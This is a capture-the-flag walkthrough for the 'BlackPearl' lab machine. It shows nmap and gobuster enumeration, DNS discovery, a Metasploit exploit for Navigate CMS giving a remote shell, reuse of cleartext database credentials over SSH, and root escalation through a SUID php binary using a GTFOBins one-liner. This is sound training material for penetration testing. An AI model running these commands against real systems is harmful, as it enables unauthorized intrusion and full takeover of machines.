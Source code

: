 # CTF - BlackPearl

## Scanning and Enumeration

### 1. Nmap scan to discover victim

	sudo nmap -sn 192.168.100.1/24

Result : ./discovery-scan
Target IP : 192.168.100.190

### 2. Scanning Target IP

	sudo nmap -A -sC -sV 192.168.100.190

Result : ./nmap-initial

#### Open Ports: 

- 22/tcp ssh v:OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 53/tcp domain ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
- 80/tcp http nginx 1.14.2

#### operating System

Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6

### 3. Exploring directories (NO LUCK)

	sudo gobuster dir -u http:192.168.100.190/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

Result: ./directory-burst1 
Directories found: /secret

- 'Secret' was a file which was downloaded and contains a note directory bursting won't help ;(

### 4. Enumerating DNS

- As we see above port 53 is open, so most likely a DNS server is running.
- We will now use a tool called 'nslookup' to gather information.

Vislaize: ./nslookup.png 

- The localhost query produced a domain name.
- Browser can't reach the domain.

#### Modifying /etc/hosts

- this file is used to map domains and sub-domains to any IP adderess.
- Add the entry with domain name enumerated above and IP address of the target.

Visulaize: etc-hosts-edit.png

	192.168.100.190	blackpearl.tcm

- We can access the domain now through a browser.
- Php homepage is loaded.

### 5. Exploring directories (AGAIN!!)

	sudo gobuster dir -u http://blackpearl.tcm/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

Result: ./directory-burst2
Directories found: /navigate

- The webpage with '/navigate' loads a login page at  '/navigae/login.php'. We notice that the server is running php.
- Directory bursting after /naviagte/ with '.php' extension.

		gobuster dir -u http://blackpearl.tcm/navigate/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php

Result: directory-burst3


### 6. Exploitation

CVE: 2018-17553 2018-17552
Ref: https://www.exploit-db.com/exploits/45561

Descrption: This exploit bypassses authentication bacause of the insufficient sanitization in the database. After, there is an path traversal vulnerability in navigate_upload.php, which could be used to upload the payload to arbitray locations.


- We can use this exploit with metasploit.

		1	msf > use exploit/multi/http/navigate_cms_rce
		2	msf exploit(navigate_cms_rce) > show targets
		3	   	...targets...
		4	msf exploit(navigate_cms_rce) > set TARGET < target-id >
		5	msf exploit(navigate_cms_rce) > show options
		6    	...show and set options...
		7	msf exploit(navigate_cms_rce) > exploit 

- One meterpreter starts, enter 'shell' to get the machine shell.
- 'python3 -c 'import pty;pty.spawn("/bin/bash")'' use this to spawn an interactive terminal using python.

### 7. Privilege escalation

- Navigate to '/var/www/blackpearl.tcm/navigate/cfg' and cat globals.php to read the contents of thef file.
- There is a databse connection call with password and username is written in clear text.

		...
		define('PDO_USERNAME', "alek");
		define('PDO_PASSWORD', "H4x0r");
		define('PDO_DRIVER',   "mysql");
		...

- ssh connection using these credentials

- download linpease - Linux Privilege Escalation Awesome Script
- It scans the entire machine and provide you reasults on potential escaltion paths.

- Scroll down under Interesting information

		rwsr-xr-x 1 root root 4.6M Feb 13  2021 /usr/bin/php7.3 (Unknown SUID binary)

- 's' in 'rws' means that any user can run this specific file under root.
- Navigate to the webpage https://gtfobins.github.io/gtfobins/php/#suid
- It contains list of binaries in linux system which can be used to escalate privileges in misconfigured syetems.

		php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"

- Run thhis to get the root access shell.